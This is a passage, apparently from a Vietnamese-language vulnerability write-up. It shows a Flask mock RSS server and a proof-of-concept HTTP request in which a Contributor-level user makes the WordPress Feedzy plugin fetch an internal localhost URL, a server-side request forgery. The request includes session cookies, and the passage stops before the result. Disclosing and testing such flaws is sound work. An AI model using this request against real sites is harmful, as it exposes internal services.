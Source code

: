 ```py
        <link>https://example.com</link>
        <description>This is a sample RSS feed generated by Flask.</description>
        <item>
          <title>First item</title>
          <link>https://example.com/item1</link>
          <description>Hello world!</description>
        </item>
        <item>
          <title>Second item</title>
          <link>https://example.com/item2</link>
          <description>Another entry.</description>
        </item>
      </channel>
    </rss>"""
    
    return Response(xml_content, mimetype='application/xml')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

### Proof of Concept (PoC)

1. Login bằng tài khoản Contributor
2. Gửi POST request với URL trỏ đến local service:

```php
POST /wp-json/feedzy/v1/feed HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/wp-login.php?redirect_to=http%3A%2F%2Flocalhost%2Fwp-admin%2F&reauth=1
Connection: keep-alive
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=sub%7C1761790291%7C0Q8NLwANiN0Uz0cgmvSAN6iBfEFzSylzkAkZn4kLcoG%7Cdf597bffe4c239d9e871b2ac98a2d427df0fb82dc7a09099bc026fbbff641ad1; wp-settings-time-2=1761542750; _lscache_vary=0f9122a3a07756eeee3b4199f2c151b1; wp-settings-time-3=1761591693; wp-settings-3=mfold%3Do; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=sub%7C1761790291%7C0Q8NLwANiN0Uz0cgmvSAN6iBfEFzSylzkAkZn4kLcoG%7Cd42e05305965ebb0efad0d1374e9552219c641afb6452531634d3b4e414c6a48; wp_lang=en_US

url[0]=http://localhost:8001/feed&category=cat
```

**Result**:
